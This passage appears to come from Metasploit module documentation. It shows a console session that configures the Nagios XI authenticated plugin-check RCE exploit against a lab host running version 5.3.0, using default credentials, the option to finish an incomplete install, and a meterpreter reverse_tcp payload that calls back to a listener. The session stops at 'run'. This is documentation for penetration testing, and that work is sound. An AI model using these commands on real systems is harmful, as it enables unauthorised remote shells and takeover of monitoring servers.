 ```

```

### Nagios XI 5.3.0 running on CentOS 7 (unfinished installation) - Linux (x64) target
```
msf6 > use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set rhosts 192.168.1.16
rhosts => 192.168.1.16
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password nagiosxi
password => nagiosxi
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set finish_install true
finish_install => true
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  true             no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosxi         yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.16     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.28     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run
```